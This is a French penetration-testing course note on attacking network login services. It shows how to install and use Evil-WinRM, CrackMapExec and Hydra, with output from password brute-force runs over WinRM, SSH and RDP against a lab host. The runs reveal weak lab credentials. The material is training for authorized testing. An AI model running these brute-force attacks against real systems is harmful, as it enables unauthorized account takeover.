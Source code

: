 # Service Réseau

## Introduction

Au cours de nos tests d'intrusion, chaque réseau informatique que nous rencontrons disposera de services installés pour gérer, modifier ou créer du contenu. Tous ces services sont hébergés à l'aide d'autorisations spécifiques et sont attribués à des utilisateurs spécifiques. Outre les applications Web, ces services incluent (mais ne sont pas limités à) :

|           |       |             |
| --------- | ----- | ----------- |
| FTP       | SMB   | NFS         |
| IMAP/POP3 | SSH   | MySQL/MSSQL |
| RDP       | WinRM | VNC         |
| Telnet    | SMTP  | LDAP        |

## WinRM

La gestion à distance de Windows (WinRM) est l'implémentation Microsoft du protocole réseau Web Services Management Protocol (WS-Management). Il s'agit d'un protocole réseau basé sur des services Web XML utilisant le protocole SOAP (Simple Object Access Protocol) utilisé pour la gestion à distance des systèmes Windows. Il prend en charge la communication entre Web-Based Enterprise Management (WBEM) et Windows Management Instrumentation (WMI), qui peut appeler le Distributed Component Object Model (DCOM).

Cependant, pour des raisons de sécurité, WinRM doit être activé et configuré manuellement dans Windows 10. Par conséquent, cela dépend fortement de la sécurité de l'environnement dans un domaine ou un réseau local où nous voulons utiliser WinRM. Dans la plupart des cas, on utilise des certificats ou seulement des mécanismes d'authentification spécifiques pour augmenter sa sécurité. WinRM utilise les ports TCP 5985 (HTTP) et 5986 (HTTPS).

Un outil pratique que nous pouvons utiliser pour nos attaques par mot de passe est CrackMapExec, qui peut également être utilisé pour d'autres protocoles tels que SMB, LDAP, MSSQL et autres. Nous vous recommandons de lire la documentation officielle de cet outil pour vous familiariser avec celui-ci.

<hr>

## EvilWinRM
EvilWinRM permet de se connecter à un serveur par WinRM (donc c'est un client winrm)

### Installation
```
dsgsec@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

### Utilisation
```
dsgsec@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```


## CrackMapExec
### **Installation de CrackMapExec**

Nous pouvons installer CrackMapExec via apt sur un hôte Parrot ou cloner le référentiel GitHub et suivre les différentes méthodes d'installation, telles que l'installation à partir de la source et éviter les problèmes de dépendance.

```
dsgsec@htb[/htb]$ sudo apt-get -y install crackmapexec
```

### CrackMapExec Protocol-Specific Help
Notez que nous pouvons spécifier un protocole spécifique et recevoir un menu d'aide plus détaillé de toutes les options qui s'offrent à nous. CrackMapExec prend actuellement en charge l'authentification à distance à l'aide de MSSQL, SMB, SSH et WinRM.
```
dsgsec@htb[/htb]$ crackmapexec smb -h

usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of
                        targets, NMap XML or .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
```

### CrackMapExec Usage
```
dsgsec@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```
dsgsec@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
L'apparition de (**Pwn3d!**) est le signe que nous pouvons très probablement exécuter des commandes système si nous nous connectons avec l'utilisateur brute-forcé. 
Un autre outil pratique que nous pouvons utiliser pour communiquer avec le service WinRM est Evil-WinRM, qui nous permet de communiquer efficacement avec le service WinRM.

<hr>

## SSH
Secure Shell (SSH) est un moyen plus sûr de se connecter à un hôte distant pour exécuter des commandes système ou transférer des fichiers d'un hôte vers un serveur. Le serveur SSH fonctionne par défaut sur le port TCP 22, auquel nous pouvons nous connecter à l'aide d'un client SSH. Ce service utilise trois opérations/méthodes de cryptographie différentes : le chiffrement symétrique, le chiffrement asymétrique et le hachage.

### Bruteforce - Hydra
#### SSH
Hydra est un outil permettant de faire du bruteforce sur plusieurs services différents, voici un exemple avec un bruteforce SSH

```
dsgsec@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

#### RDP
```
dsgsec@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
